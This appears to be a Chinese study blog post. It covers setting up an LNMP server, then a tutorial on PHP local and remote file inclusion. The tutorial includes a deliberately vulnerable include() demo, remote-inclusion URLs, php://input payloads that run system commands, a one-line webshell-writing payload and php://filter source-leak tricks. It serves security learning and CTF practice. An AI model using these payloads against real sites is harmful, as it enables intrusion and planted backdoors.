








1、LNMP环境快速构建
安装Nginx
$ sudo apt-get update
$ sudo apt-get install nginx安装Nginx完成后可查看版本号，输入：
$ /usr/sbin/nginx -vNginx安装完成，此时访问IP可以看到Welcome Nginx的界面。
安装MySQL
$ sudo apt-get install mysql-server-5.7 mysql-client-5.7中途会提示输入数据库密码，请输入较为复杂的密码并牢记
MySQL安装完成后，输入以下登录验证
mysql -uroot -p密码就是刚才设置的密码
安装PHP及相应扩展
$ sudo apt-get install php7.0-fpm php7.0-mysql php7.0-common php7.0-curl php7.0-cli php7.0-mcrypt php7.0-mbstring php7.0-dom配置PHP
sudo vim /etc/php/7.0/fpm/php.iniNginx 与 PHP-FPM集成
PHP-FPM 与 Nginx 通信方式有两种，一种是基于TCP的 Internet domain socket 方式，一种是 UNIX domain socket 方式。
UNIX domain socket 可以使同一台操作系统上的两个或多个进程进行数据通信。UNIX domain socket 的接口和 Internet domain socket 很像，但它不使用网络底层协议来通信。
服务器压力不大的情况下，这两种方式性能差别不大，但在压力比较满的时候，用UNIX domain socket方式，效果确实比较好。
UNIX domain socket 方式：
在 /etc/nginx/sites-available/default 配置文件中（网站根目录也在是这里更改）， Nginx已经为与 PHP-FPM的整合准备好了，只需要将下面这部分改好就可以了。sock文件路径为 /run/php/php7.1-fpm.sock 。
location ~ \.php$ {
include snippets/fastcgi-php.conf;
# With php7.0-cgi alone:
# fastcgi_pass 127.0.0.1:9000;
# With php7.0-fpm:
fastcgi_pass unix:/run/php/php7.1-fpm.sock;
}然后再修改 PHP-FPM的配置文件 /etc/php/7.1/fpm/pool.d
listen = /run/php/php7.1-fpm.sock重启
sudo service /etc/init.d/nginx restart
sudo service /etc/init.d/php7.1-fpm restartDay1:文件包含
常见的导致文件包含的函数有：
- PHP：
include()，include_once()，require()，require_once()，fopen()，readfile()等 - JSP Servlet：
ava.io.File()，java.io.FileReader()等 - ASP：
includefile，includevirtual等
当 PHP 包含一个文件时，会将该文件当做 PHP 代码执行，而不会在意文件时什么类型。
demo
<?php @include($_GET["file"]); ?>1、LFI-本地文件包含，Local File Inclusion
00截断需要php小于5.3才能用没精力下载，所以就先不考虑
2、RFI-远程文件包含 ，Remote File Inclusion
2.1、普通远程文件包含-直接包含执行
?file=[http|https|ftp]://example.com/shell.txt
需要 allow_url_fopen=On 并且 allow_url_include=On 。

2.2、利用 PHP 流 input
?file=php://input利用条件：
- allow_url_include = On。
- 对allow_url_fopen不做要求。
index.php
?file=php://input
POST:
<?php phpinfo();?>
12345方便一点是
<?php
echo '<pre>';
system('tree ./');?>
甚至可以写一句话木马,亲测有效
<?PHP fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');?>典型题目

2.3、利用 PHP 流 filter
?file=php://filter/convert.base64-encode/resource=index.php

需要 allow_url_include=On 。
2.4、利用 data URIs



2.5、zlib://协议
zip://：在allow_url_fopen，allow_url_include都关闭的情况下可以正常使用，使用如下：
file.php?file=zip://[压缩文件绝对路径]#[压缩文件内的子文件名]
file.php?file=zip://nac.jpg#nac.php 其中get请求中#需要进行编码，即%23